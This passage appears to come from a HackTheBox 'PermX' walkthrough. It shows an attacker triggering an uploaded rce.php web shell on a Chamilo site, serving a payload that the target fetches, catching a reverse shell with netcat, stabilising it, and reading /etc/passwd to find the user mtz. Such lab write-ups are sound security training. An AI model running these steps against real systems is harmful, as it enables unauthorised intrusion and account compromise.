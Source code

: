 ```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/files]
└─$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/PermX/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.221.151 - - [06/Jul/2024 15:47:44] "GET /x HTTP/1.1" 200 -
```

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.66] from (UNKNOWN) [10.129.221.151] 52984
bash: cannot set terminal process group (1139): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Shell Stabilization

Since we got a shell as `www-data`, stabilizing our shell was business as usual.

```c
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<les$ python3 -c 'import pty;pty.spawn("/bin/bash")'                     
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$ 
<milo/main/inc/lib/javascript/bigupload/files$ export XTERM=xterm            
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Enumeration

A quick enumeration revealed a new user called `mtz`.

```c
www-data@permx:/var/www$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

| Username |
| -------- |
| mtz      |
